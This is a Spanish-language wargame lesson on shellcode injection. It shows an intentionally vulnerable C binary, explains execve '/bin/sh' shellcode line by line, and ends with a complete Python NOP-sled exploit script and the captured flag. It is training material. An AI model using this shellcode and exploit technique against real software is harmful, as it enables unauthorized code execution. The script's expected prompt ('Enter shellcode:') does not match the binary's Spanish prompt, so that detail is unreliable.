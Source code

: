 # Inyección de Shellcode

La lección anterior tenía shellcode "integrado" para demostrar la mecánica de cómo funciona. Esta vez, necesitaremos inyectar nuestro propio shellcode, además de maniobrar alrededor de algunos obstáculos que el binario nos presenta.

Este nivel te guiará a través del proceso de escribir, inyectar y ejecutar tu propio shellcode.

### Resultados de Aprendizaje

- Aprender a escribir y compilar shellcode
- Familiarizarse con la mecánica de usar Python para inyectar shellcode en un proceso

---

## Inyección de Shellcode

En la lección anterior, vimos cómo el shellcode podía ser colocado en el stack y luego ejecutado.

Esta vez, inyectaremos nuestro propio shellcode personalizado para familiarizarnos con la mecánica de este concepto.

Primero, ejecutemos el programa y veamos qué hace.

---

```C
// gcc -g -I ../includes -O0 -z execstack -fno-stack-protector -no-pie -o injection injection.c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

// Oculto por simplicidad
#include <wargames.h>

void main()
{
    init_wargame();
    
    printf("------------------------------------------------------------\n");
    printf("--[ Shellcoding - Inyección de Código                       \n");
    printf("------------------------------------------------------------\n");

    int offset = 0;
    char shellcode[512] = {};
    memset(shellcode, 0xcc, 512);

    printf("Ingresa shellcode: ");
    fgets(shellcode, sizeof(shellcode), stdin);
    
    // Semilla única en cada instancia
    srand(time(NULL));

    // Generar offset aleatorio > longitud del shellcode execv y < tamaño del buffer
    offset = (rand() % (513 - strlen(shellcode))) - 1;
    if (offset < 23)
        offset += 23;

    printf("Llamando shellcode...\n");
    (((void (*)(void))shellcode) + offset)();     
}
```

---

### El Código

En general, este binario es bastante similar al anterior.

Podemos ver que todavía hay una variable local llamada shellcode cuyo contenido se ejecuta al final del programa. Sin embargo, ahora tenemos que proporcionar el shellcode real.

Resaltadas en rojo hay algunas diferencias importantes. A saber:

- El buffer shellcode se inicializa con `0xcc`
- Se agrega un offset aleatorio al shellcode antes de que se ejecute

---

Primero, necesitamos compilar nuestro shellcode.

**¿Qué hace este shellcode?**

Este shellcode ejecuta el comando `/bin/sh` (shell de Unix/Linux) mediante una llamada al sistema `execve`. Analicemos paso a paso:

- `xor esi, esi` - Limpia el registro ESI (lo pone en 0)
- `movabs rbx, 0x68732f2f6e69622f` - Carga la cadena "/bin//sh" en RBX (en hexadecimal y orden little-endian)
- ![alt text](image.png)
- `push rsi` / `push rbx` / `push rsp` / `pop rdi` - Construye un puntero a la cadena "/bin//sh" en RDI
- `push 0x3b` / `pop rax` - Establece RAX = 59 (número de la syscall `execve` en Linux x64)
- `xor edx, edx` - Limpia RDX (argumentos = NULL)
- `syscall` - Ejecuta la llamada al sistema

El resultado es que se spawea una shell interactiva, lo cual es el objetivo típico de muchos exploits.

Haz clic en la pestaña `Shellcode`, luego usa el ensamblador proporcionado para obtener una versión binaria del siguiente assembly:

```nasm
xor esi, esi
movabs rbx, 0x68732f2f6e69622f
push rsi
push rbx
push rsp
pop rdi
push 0x3b
pop rax
xor edx, edx
syscall
```

Una vez que hayas compilado el assembly, escribe y ejecuta un script de Python que envíe el shellcode compilado al binario.

----

Enviamos shellcode válido, pero el programa sigue crasheando en lugar de ejecutar nuestro shellcode.

Veamos qué está pasando:

```wdb
wdb> x/23bx $rip
0x7fffffffec0b: 0xcc    0xcc    0xcc    0xcc    0xcc    0xcc    0xcc    0xcc
0x7fffffffec13: 0xcc    0xcc    0xcc    0xcc    0xcc    0xcc    0xcc    0xcc
0x7fffffffec1b: 0xcc    0xcc    0xcc    0xcc    0xcc    0xcc    0xcc

wdb> x/10i $rip
0x7fffffffec0b: int3 
0x7fffffffec0c: int3 
0x7fffffffec0d: int3 
0x7fffffffec0e: int3 
0x7fffffffec0f: int3 
0x7fffffffec10: int3 
0x7fffffffec11: int3 
0x7fffffffec12: int3 
0x7fffffffec13: int3 
0x7fffffffec14: int3 
```

----

Debido al offset aleatorio que el programa agrega a la variable shellcode, el instruction pointer nunca "aterrizará" encima de nuestro código.

En su lugar, terminamos ejecutando los bytes `0xcc` prellenados, que se traducen a `int3`.

Esta instrucción causa un SIGTRAP, que usualmente se usan para implementar breakpoints. En este binario, solo se usan como una forma de "crashear" el programa.

---
## La Instrucción "NOP"

Necesitamos una forma de garantizar que nuestro shellcode eventualmente se ejecute. Para hacer esto, haremos uso de la instrucción NOP.

NOP significa No Operation, y la instrucción no hace nada excepto por su efecto inherente de incrementar `$rip`. El opcode para NOP es `\x90`.

Ve si puedes "rellenar" tu shellcode con instrucciones NOP de tal manera que puedas garantizar que se ejecute, incluso con el offset aleatorio.

----

## Exploit final

```python
import interact

process = interact.Process()

process.readuntil(b'Enter shellcode: ')

# Este es el shellcode de 23 bytes que nos dieron para ejecutar /bin/sh
shellcode = b"\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

# El búfer es de 512, pero fgets solo lee 511 bytes.
# Hacemos el payload total de 511 para que quepa perfectamente.
total_payload_size = 511

# Nota: fgets() lee hasta N-1 caracteres del stream y reserva un byte 
# para el terminador nulo '\0'. Por eso aunque el buffer sea de 512 bytes,
# solo podemos enviar 511 bytes útiles de payload.

# Calculamos el nuevo tamaño del relleno
padding_size = total_payload_size - len(shellcode) # 511 - 23 = 488 bytes de relleno

# Creamos la pista de NOPs con el tamaño corregido
nop_sled = b'\x90' * padding_size

payload = nop_sled + shellcode

# Usamos sendline para que fgets reciba el '\n' y termine la cadena con '\0'.
process.sendline(payload)

process.interactive()
```

----

```bash
cat flag
```

`flag{data_1s_c0de_and_c0de_1s_data}`

